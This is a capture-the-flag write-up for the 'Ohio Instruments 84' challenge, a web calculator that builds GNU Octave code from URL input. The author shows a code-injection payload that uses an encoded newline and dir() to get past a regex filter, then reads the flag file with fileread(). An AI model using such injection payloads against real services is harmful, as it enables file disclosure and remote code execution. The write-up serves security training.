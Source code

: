 # Ohio Instruments 84
## Description
Locally sourced graphing calculator.

https://ohio-instruments-84.chall.pwnoh.io
## Author
jm8
## Resources
`export.zip` - source code
## Solution
0. By auditing the source code, we can find that program use `octave` to draw the graph.
1. By doing some search on internet, the GNU octave is designed to similar to MATLAB.
2. Therefore, we can directly use `system()` and `fileread()` on the code.
3. Then, we meet our first question: how we make a RCE (remote code execution) payload? Although we can't input new line on the input box, since the code is passed through URL, we can use `%0A` (the new line in URL encoding) to make a RCE.  
e.g. `1)%0Acos(x` will be  
    ```matlab
    x = -10:.2:10; h = figure('visible', 'off'); plot(x, $1)
    cos(x); saveas(h, '${filename}')
    ```  
4. However, by the restriction of regex, we can't use char or string directly on the code. Then, we can simply bypass this restriction by using `dir()` function (which will return the `dir` as matrix).
5. Hence, we can use `fileread(dir()(7).name())` to read the flag. Then is the final question: how can we show the content?
6. As same as program of MATLAB, we can use `title`, `xlabel`, `ylabel` and so on to add some text on our lovely graph.
7. Done!  

Final payload:
```uri
1)%0Atitle(fileread(dir()(7).name()))%0Acos(x
```
and the url `https://ohio-instruments-84.chall.pwnoh.io/1)%0Atitle(fileread(dir()(8).name()))%0Acos(x`.  
Result:
![flag](image.png)